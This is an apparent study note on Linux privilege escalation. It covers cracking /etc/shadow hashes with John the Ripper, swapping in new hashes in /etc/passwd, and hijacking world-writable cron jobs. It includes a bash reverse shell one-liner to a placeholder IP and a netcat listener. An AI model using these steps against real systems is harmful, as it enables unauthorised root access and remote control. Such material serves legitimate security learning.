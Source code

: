 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.<br>That complex string between the first and second `:` is the hashed password of user "diego".
<img src="../imgs/shadow.png" alt="shadowImg" />



  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - UPDATE: probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before. <br>
That `x` means that any hash is set for user "diego."<br>
That `/home/diego` is his home directory.<br>
That `/bin/zsh` is his default shell.
<img src="../imgs/passwd.png" alt="passwdImg" />



  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
<img src="../imgs/sudoers.png" alt="sudoersImg" />
<br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
<img src="../imgs/crontab.png" alt="crontab"> 
Example of cron jobs scheduled to run every minute:
<img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">

  - If one of these cron jobs are world-writable, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
